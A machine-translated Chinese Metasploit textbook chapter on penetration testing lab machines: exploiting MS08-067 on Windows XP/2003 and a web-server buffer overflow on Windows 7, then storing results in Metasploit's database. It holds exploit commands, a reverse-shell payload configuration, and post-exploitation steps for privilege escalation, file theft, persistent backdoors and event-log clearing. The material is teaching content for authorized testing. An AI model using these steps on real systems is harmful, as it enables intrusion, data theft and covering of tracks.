考虑到在 Windows XP 系统上的黑盒渗透测试，我们可以假设我们已经完成了交互前阶段。我们将在测试范围内测试单个 IP 地址，而事先不了解目标上运行的技术。我们正在使用 Kali Linux 进行测试，这是一个流行的基于安全性的 Linux 发行版，它附带了大量预安装的安全工具。

### 搜集情报

如前所述，收集情报阶段围绕着收集尽可能多的关于目标的信息。主动和被动扫描，包括端口扫描、横幅抓取和各种其他扫描，取决于被测目标的类型。当前场景下的目标是位于本地网络中的单个 IP 地址。因此，我们可以跳过被动信息收集，继续使用主动信息收集方法。

让我们从内部的**封装**机制开始，它包括端口扫描、横幅抓取、检查系统是否处于活动状态的 ping 扫描以及服务检测扫描。

为了进行内部封装，NMAP 被证明是最好的工具之一。让我们在目标上使用 NMAP 执行简单的 ping 扫描，以检查目标是否在线，如以下屏幕截图所示：



在 NMAP 中使用`-sP`开关，然后使用目标的 IP 地址，将指示 NMAP 在目标上执行 ping 扫描。NMAP 不仅告诉我们系统是否处于活动状态，还通过发送 ARP 请求显示目标的 MAC 地址。但是，如果目标阻止 ICMP 数据包，NMAP ping scan 会通过将 ICMP 数据包更改为基于 TCP 的数据包来自动切换方法。

此外，如果您正在从用户帐户运行 NMAP 扫描，您可以通过键入`sudo –s`命令确保将访问切换到根目录。

完成 ping 扫描后，很明显范围内的目标是在线的。

下一步是查找有关操作系统和开放端口的信息。端口扫描是一种查找打开的端口并在找到的端口上标识正在运行的服务的方法。NMAP 提供了多种用于识别打开端口的扫描方法。使用`-O`交换机将指示 NMAP 执行操作系统检测、设备类型识别、网络距离、开放端口以及在其上运行的服务。此 NMAP 扫描以**操作系统检测**型扫描而闻名。让我们看看如何在目标上执行这种类型的扫描：



扫描的输出列出了在开放端口上找到的各种服务以及目标的操作系统详细信息。因此，在这一点上，我们知道目标已经达到。端口 80、135、139、443、445 和 3306 打开。目标正在 Windows XP Professional SP2 或 Windows Server 2003 上运行。但是，操作系统的详细信息可能每次都不正确。因此，要确认这一点，请使用其他操作系统指纹识别工具，如 XPROB2、p0f 等。

### 注

参见[http://nmap.org/bennieston-tutorial/](http://nmap.org/bennieston-tutorial/) 了解有关 NMAP 扫描的更多信息。

参见[http://null-byte.wonderhowto.com/how-to/hack-like-pro-conduct-os-fingerprinting-with-xprobe2-0148439/](http://null-byte.wonderhowto.com/how-to/hack-like-pro-conduct-os-fingerprinting-with-xprobe2-0148439/) 用于使用 XPROB2 进行操作系统检测扫描。

参考[上一本关于 NMAP 的优秀书籍 http://www.packtpub.com/network-mapper-6-exploration-and-security-auditing-cookbook/book](http://www.packtpub.com/network-mapper-6-exploration-and-security-auditing-cookbook/book) 。

### 提示

为了更好地检测服务，我们可以在 NMAP 中使用`–sV`开关。此外，我们还可以使用`–o` 开关保存输出并将结果导出到其他工具，如 Nessus 等。在后面的章节中，我们还将介绍如何导出函数。

### 威胁建模

从前面的阶段，我们知道操作系统是 Windows XP Professional SP2 或 Windows 2003 服务器。通过[探索 Windows XP 系统或 Windows 2003 服务器上的漏洞 http://www.cvedetails.com/product/739/Microsoft-Windows-Xp.html](http://www.cvedetails.com/product/739/Microsoft-Windows-Xp.html) 和[http://www.cvedetails.com/product/2594/Microsoft-Windows-2003-Server.html?vendor_id=26 分别为](http://www.cvedetails.com/product/2594/Microsoft-Windows-2003-Server.html?vendor_id=26)，并将漏洞与找到的端口进行匹配。可以得出结论，这些操作系统组中的大多数都容易受到端口 445 的攻击。由于端口 445 上存在 NETAPI 漏洞，这可能导致整个系统受损。但是，对第三方软件（如 Apache 和 MySQL）的漏洞检查也必须是清单的一部分。

将此漏洞归类为高风险，所有其他发现的威胁都需要根据其影响因素列入列表。

在测试的这一点上，我们知道从开放端口列表中，端口号 445 容易受到 Windows XP professional 或 Windows 2003 的高风险攻击。

### 提示

参见[http://www.cvedetails.com/product-list/product_type-o/vendor_id-26/firstchar-/Operating-Systems.html](http://www.cvedetails.com/product-list/product_type-o/vendor_id-26/firstchar-/Operating-Systems.html) 了解有关基于 Windows 的操作系统中各种漏洞的更多信息。

### 脆弱性分析

我们可以考虑 NETAPI 漏洞并讨论它的一些细节。但是，有关该漏洞的详细信息，请访问[http://www.cvedetails.com/cve/CVE-2008-4250/](http://www.cvedetails.com/cve/CVE-2008-4250/) ，其中包括操作系统如何受到影响的信息、热修复程序的链接等。Rapid7 还在[上记录了该漏洞及其相关漏洞 http://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi](http://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi) 。

### 针对 NETAPI 漏洞的攻击过程

Metasploit 的用户只关心开发；然而，我们仍将讨论针对该漏洞的攻击背后的内幕。我们必须知道我们在做什么，以及我们是如何做的。这将有助于我们加强开发技能。

### 攻击的概念

此攻击的概念是在以前和旧版本的 Windows 操作系统中没有**地址空间布局随机化**（**ASLR**）使用。ASLR 负责将程序动态加载到内存中，这意味着每次都在不同的位置。Windows XP SP1、XP SP2、2003 Server 等操作系统不使用 ASLR。因此，ASLR 的不使用使得**数据执行预防**（**DEP**容易受到攻击。Windows 中`NETAPI32.dll`文件的规范化缺陷允许攻击者绕过 DEP 保护并覆盖返回地址和各种寄存器。

### 利用漏洞的过程

此攻击中的漏洞代码首先与目标建立连接。进一步，在较低传输层创建**服务器消息块**（**SMB**）登录连接。现在，巧尽心思构建的**远程过程调用**（**RPC**请求覆盖堆栈上的返回地址，并为其设置攻击者所需的地址。**外壳代码**在覆盖返回地址后放置；完成后，调整程序计数器，使其指向外壳代码。执行外壳代码后，攻击者返回会话。有些术语在这里可能看起来很吓人，但随着我们的前进，事情会变得更清楚。

因此，在这一点上，我们对该漏洞有足够的了解，我们可以进一步利用该漏洞。

### 开发和后期开发

让我们看看如何利用 Metasploit 对具有模拟威胁的目标进行实际攻击。让我们启动 Metasploit 控制台界面，通过键入以下命令搜索`ms08_067_netapi`漏洞：

```
msf>search netapi

```

在执行前面的命令时，我们将看到许多不同版本的漏洞。然而，我们将从`ms08`版本的漏洞开始我们的方法。我们选择此版本的漏洞利用，因为我们有 2008 年的相应 CVE 详细信息。因此，我们使用以下命令选择`ms08_067_netapi`漏洞：

```
msf>use exploit/Windows /smb/ms08_067_netapi

```

要启动此漏洞攻击，我们需要设置所需的选项。让我们看看这些选项是什么以及它们应该做什么，如下表所示：

<colgroup><col style="text-align: left"> <col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

选项

 | 

解释

 | 

价值

 |
| --- | --- | --- |
| 罗斯特 | 要利用的远程主机的 IP 地址 | `192.168.75.130` |
| 港口 | 要连接到的远程端口 | 445 |
| 有效载荷 | 成功利用漏洞时要执行什么操作 | 如果目标被成功利用，`windows/meterpreter/reverse_tcp`有效负载将建立一个反向连接，返回到攻击者机器 |
| 洛斯特 | 攻击者计算机的 IP 地址 | `192.168.75.133` |
| 港口 | 将处理通信的攻击者计算机的端口，反向 shell 将连接到目标系统上的该端口 | 4444（设置为默认值） |
| 出口基金 | 用于指定在发生故障、崩溃或正常退出时如何终止进程（默认） |   |
| 短管 | 用于在设置通信和**进程间通信**（**IPC**）时选择要使用的特定管道（默认） |   |
| 流量计 | 由各种后期开发功能组成的 Metasploit 模块 |   |

现在，让我们对目标运行此漏洞利用：



### 注

我们正在跳过设置默认活动值的过程。要检查哪些默认值处于活动状态，请键入`show options`或`show advanced`命令。

通过设置前面屏幕截图所示的所有必需参数，我们选择利用系统并通过发出`exploit`命令访问目标。

我们可以看到提示变为**米表**。这表示有效负载执行成功，并标志着利用漏洞的成功。

让我们使用 Metasploit 的一些后期开发功能。我们首先通过发出`sysinfo`命令来收集目标的基本信息，如下面的屏幕截图所示：



接下来，我们发布`getuid`和`getpid`来了解当前特权的级别和我们已经进入的当前流程。

考虑一个场景，其中目标机器的用户终止进程。在这种情况下，访问将丢失，我们需要重新启动整个攻击。为了克服这个问题，我们可以借助`migrate`命令从这个进程迁移到一个更可靠的进程。更可靠的进程可以是 Windows 中的主进程，即`explorer.exe`。但是，要迁移，我们需要有`explorer.exe`进程的进程 ID。我们可以通过`ps`命令找到`explorer.exe`的进程 ID。通过找出我们想要跳转到的进程的进程 ID，我们可以发出`migrate`命令，后面跟着该进程的进程 ID，如下面的屏幕截图所示：



我们可以通过再次发出`getpid`命令来验证迁移过程。此外，我们可以看到 MeterMeter 向我们显示了`explorer.exe`进程的当前进程 ID。此表示壳成功迁移到`explorer.exe`过程中。然而，当我们尝试发出`getuid`命令时，它表明我们只有用户级访问权限。这是因为我们迁移到了一个用户启动的流程`explorer.exe`。但是，我们可以通过发出`getsystem`命令再次获得系统级访问权限。

现在，让我们执行一些基本的后期开发功能，例如使用`rmdir`命令删除目录，使用`cd`命令更改目录，使用`ls`命令列出目录的内容，以及使用`download`命令下载文件，如以下屏幕截图所示：



如果仔细查看前面的屏幕截图，您会发现我们使用`rmdir`命令删除了一个名为`Confidential-Client`的目录。然后，我们使用`download`命令下载了`Market-Data`目录中名为`data.txt`的文件。

### 维护接入

维护访问是至关重要的，因为我们可能需要与被黑客攻击的系统反复交互。因此，为了实现这一点，我们可以向被攻击的系统添加一个新用户，或者我们可以使用 Metasploit 的`persistence`模块。运行`persistence`模块将通过在目标系统上安装永久后门来永久访问目标系统。因此，如果在任何情况下存在漏洞修补程序，我们仍然可以保持对该目标系统的访问，如以下屏幕截图所示：



运行`persistence`模块将在目标上上传并执行恶意`.vbs`脚本。执行此恶意脚本将导致攻击者每隔几秒钟尝试连接到其系统。此进程也将作为服务安装，并添加到启动程序列表中。因此，无论目标系统引导多少次，服务都将永久安装。因此，除非手动卸载或删除服务，否则其效果仍然有效。

为了在目标位置连接到此恶意服务并重新获得访问权限，我们需要设置一个 multi/handler。multi/handler 是一个通用利用漏洞处理程序，用于处理由目标机器上执行的有效负载启动的传入连接。要使用漏洞处理程序，我们需要从 Metasploit 框架的控制台发出如下屏幕截图所示的命令：



这里的一个关键点是，我们需要设置相同的有效负载和 LPORT 选项，这是我们在运行`persistence`模块时使用的。

发出`exploit`命令后，multi/handler 开始等待从目标系统建立连接。一旦检测到传入连接，我们就会看到 MeterMeter 外壳。

### 清理轨道

在成功突破目标系统后，最好清除我们存在的所有痕迹。为了实现这一点，我们需要清除事件日志。我们可以通过**事件管理器**模块将其清除，如下所示：



### 注

我们还可以通过从 MeterMeter 外壳发出`clearev`命令来删除事件日志。

至此，我们结束了针对 Windows XP 环境的渗透测试过程，并可以继续报告生成过程。在前面的测试中，我们只关注一个漏洞，只是为了学习。但是，我们必须测试所有漏洞，以验证目标系统中的所有潜在漏洞。

## 渗透测试 Windows Server 2003

Windows Server 2003 的测试方法与 Windows XP 完全相同。这是因为两个操作系统属于同一个内核代码集。但是，请确保重复尝试利用 Windows Server 2003 可能导致服务器崩溃。因此，Windows XP 和 Windows Server 2003 都易受基于 NETAPI 的漏洞的攻击。但是，可以在测试范围内对 IIS 和 MSSQL 旧实例中的漏洞进行额外测试。

让我们对 Windows Server 2003 进行相同的攻击，如下所示：



我们可以看到该漏洞在 Windows Server 2003 中也发挥了巨大的作用，如以下屏幕截图所示：



此外，我们还可以在这里使用基于客户端的开发方法。我们将在后面的章节中研究基于客户端的开发。不过，我将 Windows Server 2003 留给您作为练习。

让我们更进一步，在安全策略方面测试一个更高级的操作系统。

## 渗透测试窗口 7

开发 Windows 7 系统比之前讨论的操作系统要困难得多。这是由于 windows 7 的复杂体系结构、更大安全策略（如使用 ASLR）的实施以及更高级的防火墙。

那么，我们如何攻击 Windows7 系统呢？这个问题的答案是利用正在使用的第三方应用程序或基于客户端的利用。

### 搜集情报

让我们从端口扫描目标系统开始。然而，这一次，让我们通过定义`–sS`开关来执行隐藏扫描。**半开放扫描/Syn 扫描**是隐形扫描的另一个名称，因为它只完成 TCP 三次握手的三个阶段中的两个。因此，它在网络上产生的噪音更少。我们还将为`–p`交换机提供一些常见的开放端口。但是，使用此开关将指示 NMAP 仅测试这些端口，并跳过其他每个端口，如以下屏幕截图所示：



扫描端口 21、22、25、80、110 和 445 处的目标后，我们只能看到端口 80 和端口 445 打开。

此时，我们知道目标已启动并正在运行。我们还知道端口 80 和端口 445 是开放的。在 windows XP 系统上重复上一次扫描中的操作系统指纹识别过程，我们可以断定该 IP 地址正在运行 windows 7。为了鼓励你自我探索，我跳过这一步。

我们将在这里使用另一种类型的扫描来识别服务。该扫描称为维修检测扫描，由`–sV`开关表示。我们已经知道端口 445 在默认情况下运行`microsoft-ds`服务，所以我们跳过检查。因此，正在勘探的唯一港口是 80 号港。在前面的命令中，我们通过使用`–p`开关指定端口 80，指示 NMAP 仅在端口 80 上执行服务检测扫描。

让我们进一步了解端口 80 上运行的服务及其版本，如以下屏幕截图所示：


### 威胁建模

从收集情报阶段，我们知道目标场所的 80 号端口和 445 号端口是开放的。此外，我们还知道端口 80 正在运行**软件简单 Web 服务器 2.2**，端口 445 正在运行`Microsoft-ds`服务。通过查看端口 445 上运行的服务的 CVE 详细信息，我们可以很容易地发现 Windows 7 操作系统没有 Windows XP/2003 操作系统中最常见的错误。在测试的这一点上，我们只有端口 80 可以攻击。那么，让我们通过[收集有关此漏洞的详细信息 http://www.osvdb.org/84310](http://www.osvdb.org/84310) 。通过查看漏洞详细信息，我们可以看到此版本的 HTTP 服务器存在公开攻击。

### 注

有关该漏洞的详细信息，请访问[http://www.rapid7.com/db/modules/exploit/windows/http/sws_connection_bof](http://www.rapid7.com/db/modules/exploit/windows/http/sws_connection_bof) 。

### 脆弱性分析

一个**简单 web 服务器连接缓冲区溢出**漏洞可允许攻击者在 HTTP`Connection`参数中发送恶意 HTTP 请求，以触发应用程序中的缓冲区溢出并获得对系统的访问权。

### 开发程序

当我们发送`HTTP/GET/1.1`请求以及`Connection`和`Host`等其他参数时，会触发漏洞。我们提供目标 IP 作为主机。然而，当涉及到`Connection`参数时，我们提供了足够的垃圾数据，可能会使缓冲区崩溃，并用自定义值填充剩余的寄存器。这些自定义值将覆盖**扩展指令指针**（**EIP**）和其他寄存器，从而导致程序重定向。因此，它将重定向程序的执行，并向我们展示系统的整个控制。当软件试图使用`vsprintf()`功能打印此恶意请求时，实际上会发生溢出，但最终填充的缓冲区和空间超出了缓冲区的限制。这将用请求本身提供的值覆盖保存下一条指令和其他寄存器地址的 EIP 值。

更进一步，让我们使用该漏洞攻击目标系统。

### 开发和后期开发

启动 Metasploit 框架后，我们发出`use`命令，后跟漏洞利用路径，开始使用漏洞利用。在设置所有必需选项和有效负载后，我们进一步利用目标，如以下屏幕截图所示：



答对 了我们成功了。我们成功地利用了带有第三方应用程序的 Windows 7 系统。让我们通过从 MeterMeter 发出`sysinfo`命令来验证目标系统，以验证 Windows 7 的详细信息。

此外，我们可以提升权限，获得系统级访问权，运行后门，并轻松将文件下载/上传到被攻击的系统。我将这些开发后功能作为练习留给您完成。

## 使用数据库存储和获取结果

在执行渗透测试时，存储结果总是一种更好的方法。这将帮助我们建立一个关于主机、服务和渗透测试范围内的漏洞的知识库。为了实现此功能，我们可以在 Metasploit 中使用数据库。

最新的版本的 Metasploit 支持`PostgreSQL`作为默认数据库。然而，一些用户面临着许多问题。最常见的问题是**数据库未连接**错误。要解决此问题，请打开终端并发出以下命令：

```
#services postgresql start
#services metasploit start

```

现在，重新启动 Metasploit，您将看到错误不再存在。

在解决了数据库问题之后，让我们进一步从数据库操作开始。要了解数据库的状态，请打开 Metasploit 框架的控制台并键入以下命令：

```
msf>db_status

```

前面的命令将检查数据库是否已连接，是否已准备好存储扫描结果，如以下屏幕截图所示：



接下来，如果我们想要连接到默认数据库以外的数据库，我们可以使用以下命令更改数据库：

```
db_connect

```

但是，仅键入前面的命令将显示其使用方法，如下面的屏幕截图所示：



为了连接到一个数据库，我们需要提供一个用户名、密码和一个带有数据库名称的端口以及`db_connect`命令。

让我们研究一下 Metasploit 中的各种其他命令对数据库的作用，如以下屏幕截图所示：



我们有七种不同的数据库操作命令。让我们看看他们应该做什么。下表将帮助我们理解这些数据库命令：

<colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

命令

 | 

使用信息

 |
| --- | --- |
| `db_connect` | 此命令用于与默认数据库以外的数据库进行交互 |
| `db_export` | 此命令用于导出存储在数据库中的整个数据集，以便创建报告或作为其他工具的输入 |
| `db_nmap` | 此命令用于使用 NMAP 扫描目标，但将结果存储在 Metasploit 数据库中 |
| `db_status` | 此命令用于检查数据库连接是否存在 |
| `db_disconnect` | 此命令用于断开与特定数据库的连接 |
| `db_import` | 此命令用于从其他工具（如 Nessus、NMAP 等）导入结果 |
| `db_rebuild_cache` | 此命令用于在早期缓存损坏或存储旧结果时重建缓存 |

在掌握了数据库命令的基本知识之后，让我们进一步了解并通过 Metasploit 中的数据库扩展执行 NMAP 扫描。此扫描将自动将找到的所有详细信息添加到 Metasploit 的各个部分。

让我们使用`–sV`开关运行服务检测扫描，如下所示：



完成 NMAP 扫描后，我们可以在屏幕上清楚地看到输出。然而，这里出现的问题是扫描结果是否存储在数据库中。

让我们使用`hosts`命令验证数据库中存在的主机。此命令将显示扫描主机的完整列表，以及与之相关的信息，如 MAC 地址、操作系统信息和其他详细信息，如以下屏幕截图所示：



此外，通过发出`services`命令，我们可以看到这些主机上有哪些可用的服务：



我们可以清楚地看到在数据库中存在的主机上找到的所有服务的列表。

使用数据库的想法帮助我们存储扫描细节，从而实现更好的漏洞管理。

### 生成报表

Metasploit 的 pro 版提供了在专业基础上生成报告的绝佳选项。然而，在 Metasploit 社区版中，我们可以高效地使用数据库生成 XML 格式的报告。这可以通过使用`db_export`功能简单地实现。

我们只需发出以下命令即可创建 XML 报告：

```
msf> db_export –f xml /home/apex/report.xml

```

此处的`-f`开关定义了报告的格式。XML 格式的报告可以导入到许多流行的漏洞扫描程序中，如 Nessus 等，这将帮助我们了解更多有关目标主机的信息。

# 变质岩的优势

为什么我们更喜欢 Metasploit 而不是手动开发技术？这是因为一个类似黑客的终端给人一种专业的感觉，还是有不同的原因？与传统的手动技术相比，Metasploit 是一个更好的选择，因为以下章节将讨论某些因素。

## 开源

应该使用 Metasploit 的一个最重要的原因是它是开源的，并且是积极开发的。各种其他高报酬的工具用于进行渗透测试。但是，Metasploit 允许用户访问其源代码并添加自定义模块。Metasploit 的专业版是收费的，但为了便于学习，社区版是首选。

## 支持测试大型网络和简单命名约定

它是易于使用的 Metasploit。然而，这里的易用性指的是命令的简单命名约定。Metasploit 在进行大型网络渗透测试时提供了极大的便利。考虑一个场景，我们需要测试一个有 200 个系统的网络。Metasploit 提供了自动测试整个范围的功能，而不是逐个测试每个系统。Metasploit 使用**子网**和**无类域间路由**（**CIDR**值）等参数测试所有系统，以利用漏洞进行攻击，而在手动攻击过程中，我们可能需要在 200 个系统上手动启动攻击。因此，Metasploit 节省了大量的时间和精力。

## 智能有效载荷生成和切换机制

最重要的是，在 Metasploit 中切换有效负载很容易。Metasploit 提供了使用`set payload`命令快速访问更改有效负载的功能。因此，将 MeterMeter 或基于 shell 的访问更改为更具体的操作，例如添加用户和获得远程桌面访问，变得很容易。通过从命令行使用`msfpayload`应用程序，生成用于手动攻击的 shell 代码也变得很容易。

## 清洁出口

Metasploit 还负责从它所破坏的系统中更干净地退出。另一方面，自定义编码的攻击可在退出其操作时使系统崩溃。在我们知道服务不会立即重新启动的情况下，这确实是一个重要因素。

考虑一个场景，我们破坏了一个 Web 服务器，而当我们正在退出时，被开发的应用程序崩溃了。服务器的计划维护时间剩余 50 天。那么，我们该怎么办？在接下来的 50 多天里等待服务再次出现，以便我们可以再次利用它？此外，如果服务在修补后恢复，该怎么办？我们最终只能踢自己。这也显示出渗透测试技能差的明显迹象。因此，更好的方法是使用 Metasploit 框架，该框架以创建更干净的出口以及提供大量的后期开发功能（如持久性）而闻名，可以帮助维护对服务器的永久访问。

## GUI 环境

Metasploit 提供了良好的 GUI 和第三方界面，如 Armitage。这些接口通过提供诸如易于切换的工作区、动态漏洞管理和只需单击按钮即可实现的功能等服务来简化渗透测试项目。我们将在本书后面的章节中详细讨论这些环境。

# 总结

在本章中，我们介绍了渗透测试所涉及的各个阶段。我们还了解了如何设置测试环境，并回顾了 Metasploit 的基本功能。我们了解了如何在 WindowsXP、WindowsServer2003 和 Windows7 上执行渗透测试。我们还研究了在 Metasploit 中使用数据库的好处。

完成本章后，我们将配备：

*   关于渗透测试阶段的知识
*   关于为 Metasploit 练习建立渗透测试实验室的知识
*   Metasploit 框架的基础知识
*   关于传统开发工作的知识
*   了解使用 Metasploit 进行渗透测试的方法
*   在 Metasploit 中使用数据库的好处

本章的主要目的是向您介绍渗透测试阶段和 Metasploit。本章完全集中于为下一章做准备。

在下一章中，我们将介绍一种稍微困难一点的技术，即编写 Metasploit 组件的脚本。我们将深入研究 Metasploit 的编码部分，并将自定义功能写入 Metasploit 框架。